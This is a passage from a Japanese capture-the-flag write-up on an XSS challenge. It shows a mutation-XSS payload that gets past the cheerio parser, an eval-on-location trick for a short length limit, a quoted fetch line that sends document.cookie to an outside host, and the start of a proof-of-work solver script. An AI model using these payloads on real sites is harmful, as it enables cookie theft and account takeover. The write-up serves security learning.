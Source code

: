<div class="code-block-container"><pre class="language-html"><code class="language-html code-line" data-line="272"><span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>HTML:math</span><span class="token punctuation">&gt;</span></span>
    <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>MATHML:mi</span><span class="token punctuation">&gt;</span></span>
        <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>HTML:mglyph</span><span class="token punctuation">&gt;</span></span>
            <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>MATHML:xmp</span><span class="token punctuation">&gt;</span></span>
                <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>MATHML:mi</span><span class="token punctuation">&gt;</span></span>
                    <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;</span>HTML:iframe</span> <span class="token special-attr"><span class="token attr-name">onload</span><span class="token attr-value"><span class="token punctuation attr-equals">=</span><span class="token value javascript language-javascript"><span class="token function">alert</span><span class="token punctuation">(</span><span class="token number">1</span><span class="token punctuation">)</span></span></span></span><span class="token punctuation">&gt;</span></span>   
            <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>xmp</span><span class="token punctuation">&gt;</span></span>
        <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>mglyph</span><span class="token punctuation">&gt;</span></span>
    <span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>mi</span><span class="token punctuation">&gt;</span></span>
<span class="token tag"><span class="token tag"><span class="token punctuation">&lt;/</span>math</span><span class="token punctuation">&gt;</span></span>
</code></pre></div>

根本的な原因は、cheerioがサニタイザーではなく、あくまでDOMパーサーであるという点である。DOMパーサーは、仮にすべて仕様通りに正しく解釈しその結果を出力したとしても、出力した結果を再度解釈すると以前と解釈が異なってしまうケースがある。

:::


さて、XSSは成功したが残りのコードは25文字以内に収める必要がる。`"fetch('//0.0.0.0/'+document.cookie)"`のようなコードでも25文字を余裕で超えてしまうため、cookieを外部に送るコードを直接書くことは難しそうだ。

そこで、URLを好きに指定できることを利用する。
* ペイロードの`onerror`の値を`'eval("/*"+location)'`とする
* URLを`http://localhost/?x=*/alert(1)//&html=...`のようにする
* evalされる文字列は`/*http://localhost/?x=*/alert(1)//&html=...`のようになる。URLの大部分がコメントアウトされ、`alert(1)`だけが残るので、`alert(1)`が実行される。

あとは、`alert(1)`の部分をcookieを自分のサイトに送るコードに書き換えればよい。

(botが問題サイトのURLを禁止するWAFが導入されていたが、それはオリジンをURLエンコードすれば良いだけなので割愛)

### 最終的なコード

```python:solver.py

import hashlib
import time
from multiprocessing import Pool
import re
import requests
from base64 import b64encode


def find_nonce(args):
    message, nonce_start, nonce_end, prefix = args
    for nonce in range(nonce_start, nonce_end):
        combined = f'{message}{nonce}'.encode()
        hash_result = hashlib.sha256(combined).hexdigest()
        if hash_result.startswith(prefix):
            return nonce
    return None

```